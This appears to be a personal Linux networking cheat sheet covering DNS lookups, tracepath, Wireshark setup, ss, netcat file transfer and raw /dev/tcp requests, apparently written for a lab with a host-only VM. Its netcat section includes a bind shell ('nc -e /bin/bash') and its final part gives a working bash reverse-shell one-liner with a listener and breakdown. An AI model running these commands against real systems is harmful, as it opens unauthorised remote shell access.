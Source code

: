 # Find places

destination directly

    dig +short <domain name>
    nslookup <domain name>

the routes taken

    tracepath <desitination>

# Wireshark

Capture as non-root:

    sudo usermod -a -G wireshark <username>
    sudo chmod 750 /usr/bin/dumpcap
    sudo setcap cap_net_raw,cap_net_admin+eip /usr/bin/dumpcap
    # logout

# File Descriptors

Pointers to the sources of data that the programs are using.

0   stdin   Standard Input
1   stdout  Standard Output
2   stderr  Standard Error

# Sockets

## ss

> another utility to investigate sockets

    # all,numeric(noresolve),tcp,listen,processes
    ss -antlp

# Send a file

    # create on target
    nc -vlpn 6666 > mybin
    
    # execute on target on connect
    nc -vlpn 6666 -e /bin/bash
    
    # send from source
    nc -vn <ip> 6666 < mybin

    # native /dev/tcp way
    { cat /tmp/toto >&3; cat <&3; } 3<>/dev/tcp/0.0.0.0/42070

# Send a basic GET request to the application on server port

    # with netcat
    cat <(echo "GET \file.txt HTTP/1.0" && echo) - | nc 1.1.1.1 2222 -vv

    # native /dev/tcp way
    { printf >&3 'GET / HTTP/1.0\r\n\r\n'; cat <&3 } 3<>/dev/tcp/www.google.com/80

# Reverse shell: /bin/bash -> /dev/tcp

Roger home: [l]isten to a [p]ort with [v]erbose output from [nc] netcat

        nc -v -l -p 666
            
Alien ship : execute it in a terminal of a virtual machine on host only adapter

        /bin/bash -i >& /dev/tcp/[roger-ip]/[roger-port] 0>&1 &

1. Execute bash in [i]nteractive session : /bin/bash -i
2. Send bash output : >&
3. Interact directly with the TCP protocol : /dev/tcp/ip/port/
4. Send bash stdin -> stdout : 0>&1  * Resend to Roger what he is typing
5. All in background : &

# cURL

## passing url with brackets

    -g/--globoff
      This  option  switches  off  the "URL globbing parser". When you set this option, you can
      specify URLs that contain the letters {}[] without having them being interpreted by  curl
      itself.  Note  that  these  letters  are not normal legal URL contents but they should be
      encoded according to the URI standard.
